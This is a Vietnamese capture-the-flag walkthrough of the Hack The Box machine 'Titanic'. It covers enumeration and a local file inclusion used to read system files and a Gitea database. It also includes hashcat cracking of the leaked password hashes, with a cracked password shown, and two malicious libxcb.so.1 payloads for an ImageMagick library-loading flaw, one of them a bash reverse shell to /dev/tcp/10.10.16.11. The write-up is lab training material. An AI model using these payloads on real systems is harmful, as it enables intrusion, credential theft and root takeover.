 ![alt text](image-32.png)
# 1. Enumeration
Sử dụng nmap quét máy chủ mục tiêu 10.10.11.55
![alt text](image.png)
Máy chủ đang mở dịch vụ http cổng 80 chuyển hướng tới tên miền http://titanic.htb/  và dịch vụ  ssh cổng 22 
Thêm tên miền titanic.htb vào /etc/hosts 
Truy cập vào trang web tên miền titanic.htb 
![alt text](image-1.png)

Ta thấy wesite có chức năng gửi form và tự động tải về form đã nhập dưới dạng file json
![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)

Tiếp tục thu thập thông tin 
Sử dụng công cụ dirsearch quét các file thư mục  ẩn của trang web với từ điển mặc định
![](image-5.png)

Sử dụng công cụ ffuf quét tên miền phụ ta nhận được miền phụ dev.titanic.htb
![alt text](image-6.png)

Thêm miền phụ dev.titanic.htb vào /etc/hosts 
Truy cập trang web của miền dev.titanic.htb
![alt text](image-7.png)

Trang web là một ứng dụng gitea ở đây ta thấy được phiên bản của gitea là version 1.22.1 . Ta tra thông tin về lỗ hổng của phiên bảng gitea version 1.22.1. Kết quả trả về chủ yếu về lỗ hổng XSS của phiên bản **1.22.0**

Đăng ký tài khoản trên  trang web và đăng nhập trang web . 
![alt text](image-8.png)
Trong mục Explore ta thu được 2 mục docker-config và flask-app 
![alt text](image-9.png)

Trong file git docker config ta tìm được thông tin cấu hình CSDL của website 
![alt text](image-10.png)

Ta đọc thư mục flash-app đây là source code của website miền titanic.htb
Trong file app.py ta tìm thấy lỗ hổng Local File Inclusion
![alt text](image-11.png)
Biến json_filepath khi đưa vào hàm send_file chưa được khử trùng -> Điều này dẫn đến ta có thể tải về các file nội bộ của website.  -> LOCAL FILE INCLUSUON
# 2. Exploit 
Ta thử với việc tải về file /etc/passwd và tải  thành công file /etc/passwd 
![alt text](image-12.png)

Trong thư mục gitea tìm thấy đường dẫn thư mục hiện tại của  gitea /home/developer/gitea/data:/data
![alt text](image-13.png)
Dựa trên đường dẫn hiện tại ta đọc được file user.txt trong đương dẫn /home/developer/user.txt
![alt text](image-14.png)
Tiếp tục đọc được file app.ini thông qua đường dẫn /home/developer/gitea/data/gitea/conf/app.ini
Ta đọc file app.ini là file chứa cấu hình cài đặt ứng dụng ta tìm được file cơ sở dữ liệu nằm tại đường dẫn /data/gitea/gitea.db
![alt text](image-15.png)

Ta tải file gitea.db về 
![alt text](image-16.png)
![alt text](image-17.png)

Sử dụng sqlite browser để mở file *.db 
![alt text](image-18.png)

Ta tìm được username và password đang được mã hóa bằng thuật toán pbkdf trong bảng user
Ta tìm được cách giải mã thuật toán pbkdf qua bài này 
https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes
Và script code để chuyển hóa về dạng chuẩn của thuật toán pbkdf 
https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py
Ta crack password của developer
Với password crack : e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
Và salt = 8bf3e3452b78544f8bee9400d6936d34

```bash
python3 gitea2hashcat.py "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"
```
![alt text](image-19.png)

Tương tự  ta thu được định dạng đúng chuẩn của PBKDF2 của tài khoản admin
![alt text](image-20.png)

Lưu password đúng chuẩn hashcat vào file password.txt
Và sử dụng hashcat để crack mật khẩu 
```bash
hashcat -m 10900 Password.txt /usr/share/wordlists/rockyou.txt
```

![alt text](image-21.png)

Ta crack thành công mật khẩu của  user : developer

![alt text](image-22.png)

Ta sử dụng username : developer và password : 25282528

# 3. Foothold
![alt text](image-23.png)
Tìm kiếm các file thư mục ta có quyền ghi trong đường dẫn otp

![alt text](image-24.png)
![alt text](image-25.png)
![alt text](image-26.png)

Tìm kiếm về ImageMagick 7.1.1-35 ta tìm được một lỗ hổng bảo mật 
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

![alt text](image-27.png)
Đúc kết được qua bài đọc về lỗ hổng
Hiểu cơ bản về lỗ hổng này : Khi chạy AppImage ( version 7.1.1-35 của ImageMagick) mà không thiết lập các biến môi trường MAGICK_CONFIGURE_PATH và LD_LIBRARY_PATH . 
Kết quả khi ImageMagick thực thi do không thiết lập các biến môi trường thì đường dẫn sẽ trống trong các biến môi trường và ImageMagick sẽ coi thư mục hiện tại thay thế cho đường dẫn trống 
Nó sẽ  tìm kiếm tệp cấu hình hoặc thư viện chia sẻ trong thư mục hiện tại để tải 
Vì vậy, nếu kẻ tấn công có thể kiểm soát tệp trong thư mục làm việc hiện tại trong khi tệp ImageMagickđang thực thi, điều này có thể dẫn đến việc thực thi mã tùy ý bằng cách tải tệp cấu hình độc hại hoặc thư viện dùng chung.
Cụ thể hơn ở đây ta có toàn quyền kiểm soát các file trong thư mục /opt/app/static/assets/images và /opt/app/tickets
Đoạn code khai thác : 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```
Ở đây ta có thư viện chia sẻ libxcb.so.1 được đặt trong đường dẫn /opt/app/static/assets/images
Ta chạy magick trong đường dẫn thì nó sẻ tải thư viện libxcb.so.1 
Và khi thư viện được tải sẽ chạy lệnh hệ thống tạo ra 1 bản sao của file root.txt tại đường dẫn hiện tại từ file root.txt ở đường dẫn /root/root.txt và cấp quyền để mọi người dùng đều có quyền đọc file root.

![alt text](image-28.png)

# 4. Privilege Escalation
Tận dụng lỗ hổng ta có thể nâng được lên quyền root 
Thông qua payload 

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >&/dev/tcp/10.10.16.11/293 0>&1'");
    exit(0);
}
EOF
```

Lắng nghe trên cổng 293 
Và ta thực thi payload 

![alt text](image-29.png)

Trên máy tấn công ta đã thu được reverse shell 
![alt text](image-30.png)
![alt text](image-31.png)
